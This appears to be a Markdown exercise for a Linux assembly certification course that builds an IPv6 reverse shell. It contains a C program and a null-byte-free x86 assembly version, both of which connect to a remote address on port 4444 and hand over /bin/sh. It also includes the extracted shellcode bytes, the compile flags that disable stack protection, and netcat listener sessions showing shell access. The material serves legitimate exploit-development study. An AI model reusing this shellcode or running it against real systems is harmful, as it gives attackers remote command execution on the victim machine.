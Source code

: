 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 1483.

All these examples have been tested on real public IPv6 address over the Internet.

# IPv6

Let's try to change the code in order to remotely connect to an IPv6 address:

```C
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET6, SOCK_STREAM, 0);

	struct sockaddr_in6 my_sockaddr;
	my_sockaddr.sin6_family = AF_INET6;
	inet_pton(AF_INET6, "xxxx:xxxx:xxxx:xxxx:xxxx:xxxx:xxxx:xxxx", &(my_sockaddr.sin6_addr));
	my_sockaddr.sin6_port = htons(4444);
 	connect(my_socket, (struct sockaddr *)&my_sockaddr, sizeof(my_sockaddr));

	int i;
	for(i = 0; i < 3; i++)
		dup2(my_socket, i);

	execve("/bin/sh", NULL, NULL);
	return 0;
}
```

In a first terminal, we start the listener

```
$ nc -6 -lv 4444
```

In another terminal, let's compile and run the program in order to check it.

```
$ gcc reverse_shell_ipv6.c -o C-reverse6
$ ./C-reverse6 
```
Connection is done in our first terminal

```
$ nc -6 -lv 4444
Connection from 0.0.0.0 port 4444 [tcp/*] accepted
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
```

# ASM

Changes in the previous code are:
 * using a *sockaddr_in6* structure
 * using AF_INET6
 * using an IPv6 address

Regarding the previous IPv6 shellcode, *sockaddr_in6* structure and AF_INET6 are already known.

The only change will be to push a real IPv6 address. 

# Pushing 2a02:b0c0:1:e0:0:0:6ae:2002

The chosen address is 2a02:b0c0:1:e0:0:0:6ae:2002 (or 2a02:b0c0:1:e0::6ae:2002). This is not the real IPv6 address used for the tests.

It is important because there are null bytes in it. If we do not have to avoid null bytes, this address will be pushed like below:

```ASM
	push 0x0220ae06 ;6ae:2002
  	push 0x00000000 ;0:0
	push 0xe0000100 ; 0001:00e0
	push 0xc0b0022A ; 2a02:b0c0
```

The *push 0x00000000* can be replaced by a *push eax*

As it is not possible to push AL, let's play with registers in order to push *0001:00e0* on the stack:

```ASM
	mov bx, 0xe0e0
	mov bl, al ;al is 0x0
	push bx
  	mov bx, 0x0101
	mov bl, al ;al is 0x0
	push bx
```

## Final shellcode

```ASM
global _start

section .text

_start:
	; socketcall
	xor eax, eax
	mov al, 0x66
	xor ebx, ebx
	mov bl, 1

	xor ecx, ecx
	push ecx
	push ebx
	push 0xa
	mov ecx, esp
	int 0x80

	mov edi, eax

	;connect
	; IPv6: 2a02:b0c0:1:e0:0:0:6ae:2002
  	xor eax, eax
	push 0x0220ae06 ;6ae:2002
  	push eax ;0:0
	; 0001:00e0 -> e0000100
	mov bx, 0xe0e0
	mov bl, al ;al is 0x0
	push bx
  	mov bx, 0x0101
	mov bl, al ;al is 0x0
	push bx
	push 0xc0b0022A ; 2a02:b0c0
	push eax ; sin6_flowinfo
	push word 0x5c11
	push word 0xa
	mov edx, esp
 
	mov al, 0x66
	xor ebx, ebx
	mov bl, 3
	push 0x1c
	push edx
	push edi
	mov ecx, esp

	int 0x80

	;dup2 for loop
	xor ecx, ecx
	mov cl, 2

duploop:
	mov al, 0x3f	
	int 0x80
	dec ecx
	jns duploop	

	;execve
	mov al, 0xb
	xor ecx, ecx
	push ecx
	push 0x68732f6e
	push 0x69622f2f
	mov ebx, esp
	cdq
	int 0x80
```

## Compilation

Let's compile everything:

```
$ bash compile.sh reverse_shellcode_ipv6
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
$ bash get-shellcode.sh reverse_shellcode_ipv6
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x0a\x89\xe1\xcd\x80\x89\xc7\x31\xc0\x68\x06\xae\x20\x02\x50\x66\xbb\xe0\xe0\x88\xc3\x66\x53\x66\xbb\x01\x01\x88\xc3\x66\x53\x68\x2a\x02\xb0\xc0\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe2\xb0\x66\x31\xdb\xb3\x03\x6a\x1c\x52\x57\x89\xe1\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\xcd\x80"$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Then, on the remote server we start the listener:

```
$ nc -6 -l 4444
```

Shellcode is executed:
```
$ ./shellcode 
Shellcode Length:  104
```

And check if everything is working on the remote server:

```
$ nc -6 -l 4444
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
```

As for the IPv4 shellcode, a Python script could be done in order to automize the port configuration.
